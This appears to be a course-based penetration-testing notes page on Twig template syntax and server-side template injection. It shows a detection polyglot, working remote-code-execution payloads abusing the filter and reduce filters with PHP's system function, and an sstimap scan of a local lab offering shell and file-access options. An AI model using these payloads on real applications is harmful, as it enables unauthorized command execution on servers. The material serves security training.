





---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Twig

## Syntax

> _The content below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

PHP does not check data types, thus, treats strings as numbers. Both the examples below will be evaluated to `25`.

```twig
{{5*5}} 
{{5*'5'}}
```

A unique piece of Twig syntax is using `-` to trim whitespace.

```twig
{{-name-}}
```

A `for` loop.

```twig


Widget
	Price:	${{product.price}}
	Quanity: {{product.quantity}}
	Total: 	${{product.quantity * product.price}}


```

A `if` statement and the use of the `capitalize` filter.

```twig
<h1>
sudo 
make me a sandwich, {{name|capitalize}}!</h1>
```

## SSTI

### filter

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

Following the methodology outlined [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#detection), we can see that we are dealing with a Twig engine (Figure 1).

```bash
# payload used
${{<%[%'"}}%\.
```

<figure><figcaption><p>Figure 1: Using a polyglot to detecting the engine.</p></figcaption></figure>

We can also confirm that we are dealing with either a Twig or Jinja2 engine  by following the steps outlined [previously ](twig.md#manual)(Figure 2). Twig uses PHP which does not check the variable type and as a result it treats `7` and `'7'` the same.

```bash
# payloads used
{{7*7}} # 49
{{7*'7'}} # 49
```

<figure><figcaption><p>Figure 2: Testing for SSTI.</p></figcaption></figure>

To make sure that this is indeed a server-side and not a client-side template injection, we can view the source code and check if the result is `49` or `{{7*'7'}}`.

```html
<div>
    <hr><h3>Your message:</h3>49                </div>
</div>
```

Next, we can try any Twig-specific payload from this [list](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#twig), in this case leveraging the [`filter`](https://twig.symfony.com/doc/3.x/filters/filter.html) filter, and achieve RCE[^1] (Figure 3).

```bash
# payloads used
{{['id']|filter('system')}}
{{['pwd']|filter('system')}}
```

<figure><figcaption><p>Figure 3: Achieving RCE via an SSTI vulnerability.</p></figcaption></figure>

The above process could be automated using [`sstimap`](https://github.com/vladko312/SSTImap).


```bash
$ sstimap.py -u "http://localhost:81/ssti0x01.php" --data 'greeting=*' --engine twig --method POST
<SNIP>

[*] Loaded plugins by categories: languages: 5; legacy_engines: 2; engines: 17; generic: 3
[*] Loaded request body types: 4

[*] Scanning url: http://localhost:81/ssti0x01.php
[*] Testing if Body parameter 'greeting' is injectable
[*] Twig plugin is testing rendering with tag '*'
[+] Twig plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Body parameter: greeting
  Engine: Twig
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, php code

[+] Rerun SSTImap providing one of the following options:
    --interactive                Run SSTImap in interactive mode to switch between exploitation modes without losing progress.
    --os-shell                   Prompt for an interactive operating system shell.
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port.
    --reverse-shell HOST PORT    Send a shell back to the attacker's port.
    --upload LOCAL REMOTE        Upload files to the server.
    --download REMOTE LOCAL      Download remote files.
```


### reduce

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

Another filter we can leverage is the [`reduce`](https://twig.symfony.com/doc/3.x/filters/reduce.html) filter which takes an arrow function and an initial value as arguments (Figure 4).

```twig
{{[0]|reduce('var_dump','Hello')}}
```

<figure><figcaption><p>Figure 4: Testing the <code>reduce</code> filter.</p></figcaption></figure>

We can replace the arguments with something that executes system commands, such as PHP's [`system`](https://www.php.net/manual/en/function.system.php) function and achieve RCE (Figure 5).

```twig
{{[0]|reduce('system','whoami')}}
```

<figure><figcaption><p>Figure 5: Leveraging the <code>reduce</code> filter to achieve RCE.</p></figcaption></figure>

[^1]: Remote Code Execution
